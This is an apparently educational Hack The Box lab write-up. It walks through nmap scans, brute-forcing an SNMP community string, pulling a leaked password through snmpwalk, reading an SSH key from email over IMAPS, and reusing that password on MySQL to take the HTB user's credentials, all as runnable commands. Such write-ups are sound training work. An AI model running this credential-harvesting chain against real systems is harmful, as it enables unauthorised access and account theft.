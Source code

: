 # Hard Lab
This lab features an MX and management server for the internal network. The server also has the function of a backup server for the internal accounts in the domain.

Similar to the Medium Lab, we need to access the credentials of the user, `HTB`.

## Approach
First, I performed a Nmap scan to identify the services running on the target.
```bash
nmap -sV -sC 10.129.213.255
```
![Nmap Results](img/hard_nmap.png) <br>
From the results, we can see that the following services are running on the target:
- SSH on port 22
- POP3 on port 110
- IMAP on port 143
- IMAP with TLS/SSL on port 993
- POP3 with TLS/SSL on port 995

Next, I run a UDP Nmap scan on the target to identify other possible services, specifically SNMP and IPMI.
```bash
nmap -sU -sV -sC 10.129.213.255 -p 161,162,623
```
![Nmap UDP Results](img/hard_nmap_udp.png) <br>
We can see that SNMP is also running on the target.

Since the target is not running SNMPv1, let's try to find the community string to access the service from [SecLists](https://github.com/danielmiessler/SecLists).
```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.213.255
```
With this, we obtained the community string, `backup`. <br>
We can now query Object Identifiers for their information with `snmpwalk`.
```bash
snmpwalk -v2c -c backup 10.129.213.255
```
![snmpwalk](img/hard_snmpwalk.png) <br>
There seems to be a credential for Tom, `tom:NMds732Js2761`.

Using the credentials, we gain access to the IMAPS service on Tom's account.
```bash
openssl s_client -connect 10.129.213.255:imaps
```
```
## After connecting to IMAPS service
1 LOGIN tom NMds732Js2761
1 SELECT INBOX					## "1 EXISTS" in it
1 FETCH 1 RFC822				## retrieves email and content
```
The content of the email shows a SSH private key, which I saved in `openssh-priv-key`.
Before accessing the SSH service, we need to change the permissions of our private key file.
```bash
chmod 600 openssh-priv-key
ssh -i openssh-priv-key tom@10.129.213.255
```
We finally gain SSH access on the target.

Taking a look at `bash_history`, I noticed that he attempted to use MYSQL service, so I also logged on to the MYSQL service using the password that we found before.
```bash
mysql -u tom -p		## password is "NMds732Js2761"
```
Then, I looked through the MYSQL database and obtained the password for the user `HTB`.
```sql
show databases;
use users;
show tables;
show columns from users;
select * from users where username="HTB";
```
![Password for HTB](img/hard_password.png)